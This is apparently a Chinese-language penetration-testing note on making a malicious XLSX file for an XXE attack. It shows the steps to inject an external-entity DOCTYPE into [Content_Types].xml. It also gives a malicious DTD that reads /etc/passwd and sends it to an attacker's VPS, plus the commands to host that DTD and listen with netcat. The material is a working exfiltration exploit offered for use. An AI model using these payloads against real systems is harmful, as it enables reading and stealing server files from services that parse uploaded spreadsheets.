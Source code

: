 ## 制作插入Payload的xlsx文件

创建`xlsx`文件，后缀改为 .zip 然后解压缩。

> ⚠️ xls是一个特有的二进制格式,xls没办法插入Payload进行XXE攻击.

在[Content_Types].xml文件中插入Payload

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://<yourvpsip:http-port>/malicious.dtd"> %xxe;]>
```

![](https://github.com/user-error-404/PenetrateNotes/blob/main/img/EXCEL-XXE.jpg)

将插入Payload后的文件重新压缩，再将压缩包的后缀名修改为 `xlsx`

## 在vps使用http托管恶意dtd文件

在恶意malicious.dtd文件所在目录启动http服务：
```python
python3 -m http.server 端口号
python2 -m SimpleHTTPServer 端口号
```

恶意文件 [malicious.dtd](https://github.com/user-error-404/PenetrateNotes/blob/main/file/malicious.dtd)：

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://<yourvpsip:nc-port>/?x=%file;'>">
%eval;
%exfiltrate;
```

## 在vps开启nc监听

```bash
nc -lvvp 8081
```




